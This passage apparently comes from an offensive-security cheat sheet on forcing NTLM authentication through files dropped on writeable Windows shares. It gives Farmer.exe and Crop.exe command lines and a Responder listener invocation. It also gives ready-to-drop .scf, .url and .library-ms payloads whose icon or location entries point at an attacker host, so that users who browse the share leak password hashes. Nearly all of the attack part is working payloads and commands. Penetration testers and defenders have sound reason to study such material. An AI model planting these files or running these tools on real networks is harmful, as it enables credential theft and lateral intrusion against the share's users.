 ### SCF and URL file attack against writeable share

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```ps1
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```

#### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```powershell
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

#### URL Files

This attack also works with `.url` files and `responder -I eth0 -v`.

```powershell
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

#### Windows Library Files 

> Windows Library Files (.library-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```
